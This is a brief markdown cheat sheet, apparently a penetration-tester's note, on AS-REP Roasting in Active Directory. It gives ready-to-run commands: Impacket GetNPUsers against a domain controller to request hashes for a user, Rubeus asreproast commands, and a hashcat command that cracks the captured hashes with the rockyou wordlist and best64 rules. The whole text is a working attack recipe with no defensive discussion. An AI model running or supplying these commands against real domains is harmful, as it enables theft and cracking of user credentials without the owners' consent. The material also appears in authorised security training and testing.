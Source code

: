 # AS-REP Roasting

### Impacket AS-REP Roasting

```markdown
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

### Using Rubeus

```markdown
.\Rubeus.exe asreproast /outfile:asrep.txt

.\Rubeus.exe asreproast /nowrap
```

Cracking hash

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
